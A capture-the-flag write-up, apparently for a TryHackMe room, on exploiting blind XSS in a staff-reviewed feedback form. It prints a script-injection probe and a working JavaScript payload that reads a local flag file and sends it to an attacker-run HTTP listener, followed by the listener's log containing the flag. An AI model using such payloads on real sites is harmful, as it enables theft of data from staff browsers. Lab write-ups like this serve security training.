


> In this Path *http://10.10.62.132:8080/flag.txt* , I Dont have access !!!

## Website Overview

- The website consists of two pages:

> Home Page

  -  Displays a simple interface with cat stickers and some styling.
  -  No apparent vulnerabilities were found here.

> Submit Feedback Page

  -  Contains a feedback form with a textarea for users to submit their comments.
  -  The form sends a POST request to /submit_feedback.

> Initial Observations

  -  The feedback form allows user-supplied input, which could be a potential injection point for attacks like Cross-Site Scripting (XSS).
  -  The response to a normal feedback submission is: Thanks for your feedback! It will be evaluated shortly by our staff.



## Blind XSS Discovery
> Testing for Blind XSS

  -  I used Burp Collaborator to check if a Blind XSS vulnerability existed.
  -  Payload used: ``` '"><script src=https://exemple.com></script>```

> After submitting the payload in the feedback form, I observed a DNS interaction logged in Burp Collaborator, confirming the execution of the payload.
> Vulnerability Context

  -  Since the feedback is processed and evaluated by staff, any malicious JavaScript submitted through the form will execute when the feedback is reviewed.
  -  This confirmed the presence of a Blind XSS vulnerability.

## Exploitation
> Setting Up the Listener

  -  I needed a way to exfiltrate data from the server, so I set up a Python HTTP server to act as my listener:

```python
python3 -m http.server 8000
```
## Crafting the Exploit Payload

> To exploit the vulnerability, I crafted a JavaScript payload that:

  -  Fetches the flag from the server’s localhost (127.0.0.1:8080/flag.txt).

> I used the localhost address because they said that they host everything on the same computer that they use for browsing the internet and looking at customer feedback.

> Sends the retrieved content to my HTTP server.

## **Payload:**
```js
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR-IP-ADDRESS>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

> - Note: Edit and Replace your own IP Address.



## Injecting the Payload

-    I submitted the payload in the feedback form.
-    Shortly after, my HTTP server captured the exfiltrated flag in the query string of an incoming GET request.

> Example captured request:

```bash
➜  CTF-Writeups python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.62.132 - - [18/Dec/2024 05:02:58] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:08] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:19] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:29] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:39] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:03:49] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:00] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:10] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:20] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:31] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:41] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
10.10.62.132 - - [18/Dec/2024 05:04:51] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

**GOOD LUCK...**